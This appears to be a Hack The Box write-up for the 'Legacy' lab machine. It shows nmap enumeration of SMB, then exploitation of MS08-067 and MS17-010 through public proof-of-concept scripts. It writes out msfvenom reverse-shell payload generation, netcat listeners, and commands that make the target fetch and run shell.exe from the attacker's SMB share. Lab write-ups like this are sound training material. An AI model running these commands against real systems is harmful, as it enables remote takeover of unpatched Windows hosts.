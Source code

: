 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | <img src="images/1.png" width="555"/></a> |

## Information Gathering

### Openning Services

```
┌──(Hades㉿10.10.14.5)-[0.5:14.1]~/scripting
└─$ sudo ./enum/all.sh 10.10.10.4
[sudo] password for kali: 

### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.4 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 139,445,3389

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.4 -p139,445,3389
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 23:38 EDT
Nmap scan report for 10.10.10.4
Host is up (0.25s latency).

PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h16m00s, deviation: 2h07m16s, median: -5h46m00s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:c4:3d (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-04-01T03:52:25+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.23 seconds
```

### Server Message Block

Enum with `smbmap` and `smbclient`, but cannot see value info.

```
### SMB Enumeration (445) ############################
smbmap -H 10.10.10.4                                                                                                                                                        
[+] IP: 10.10.10.4:445  Name: 10.10.10.4                                        
smbclient -L 10.10.10.4         
protocol negotiation failed: NT_STATUS_IO_TIMEOUT
```

Using `nmap` to scan smb vulnerability:

```
┌──(Hades㉿10.10.14.5)-[0.6:18.5]~/scripting
└─$ nmap -p 139,445 --script smb-vul* 10.10.10.4 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 23:43 EDT
Nmap scan report for 10.10.10.4
Host is up (0.25s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 36.31 seconds
```

## Foothold

### smb-vuln-ms08-067

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/legacy)

<a href='https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py' target="blank">Microsoft Windows Server 2000/2003 - Code Execution (MS08-067)</a>

In the poc, I neet to `REPLACE THIS SHELLCODE with shellcode generated for your use`.

The bad chars `"\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"`

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

Create a listener in Kali machine.

``` bash
sudo nc -nvlp 443
```
Convert poc to python3

```
2to3 ms08-067.py
```

Get reverse shell

```bash
python3 ms08-067.py 10.10.10.4 6 445 > /dev/null
```

![](images/2.png)

Create smb server in Kali Machine to check privilege.

```
sudo smbserver.py public /usr/share/windows-resources/binaries/ > /dev/null
```

```
\\10.10.14.5\public\whoami.exe
```

### smb-vuln-ms17-010

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/legacy)

<a href='https://github.com/helviojunior/MS17-010' target="blank">Microsoft Security Bulletin MS17-010 (EternalBlue/MS17-010)</a>

Generate reverse shell file `shell.exe` in the same payload's folder using `msfvenom`.

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe
```

Create a listener in Kali machine.

``` bash
sudo nc -nvlp 443
```

Get reverse shell

```bash
python send_and_execute.py 10.10.10.4 shell.exe > /dev/null
```

![](images/5.png)

Run cmd in poc file

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/legacy)

Get reverse shell

```
sudo smbserver.py public /home/kali/walkthrough/hackthebox/legacy > /dev/null
```

```
python cmd.py 10.10.10.4 '\\10.10.14.5\public\shell.exe' > /dev/null
```

![](images/6.png)

## Reference

[worawit/MS17-010](https://github.com/worawit/MS17-010)

<a href='https://0xdf.gitlab.io/2019/02/21/htb-legacy.html' target="blank">HTB: Legacy of 0xdf hacks stuff</a>

<a href='https://pycryptodome.readthedocs.io/en/latest/src/installation.html' target="blank">Install PyCrypto library</a>